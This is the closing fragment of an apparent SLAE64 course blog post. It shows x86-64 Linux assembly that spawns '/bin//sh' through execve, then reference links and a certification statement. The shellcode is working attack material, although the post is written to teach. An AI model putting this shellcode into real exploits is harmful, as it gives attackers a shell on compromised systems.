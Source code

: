         xor eax, eax
        push rax
        push rsp
        pop rdx      ; *rdx = &0x00

        mov rsi, 0x68732f2f6e69622f
        push rsi
        push rsp
        pop rdi      ; rdi = (char*) /bin//sh

        push rax
        push rdi
        push rsp
        pop rsi      ; rsi = (char**) (/bin//sh, 0x00)

        mov al, 59
        syscall

    exit:
        ;xor eax, eax  ; upper bytes are zero after read
        mov al, 60
        syscall

[man_2_socket]: https://linux.die.net/man/2/syscall
[man_2_connect]: https://linux.die.net/man/2/bind
[man_2_dup2]: https://linux.die.net/man/2/dup2
[man_2_execve]: https://linux.die.net/man/2/execve
[man_2_read]: https://linux.die.net/man/2/read
[man_3_stdin]: https://linux.die.net/man/3/stdin
[beej_sockaddr_in]: https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
[endianness]: https://en.wikipedia.org/wiki/Endianness
[intel_sdm]: https://software.intel.com/en-us/articles/intel-sdm
[felixcloutier_x86]: https://www.felixcloutier.com/x86/
[cdq]: https://www.felixcloutier.com/x86/cwd:cdq:cqo

----

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert][SLAE64] certification.

Student ID: SLAE64-1635

[SLAE64]: https://www.pentesteracademy.com/course?id=7
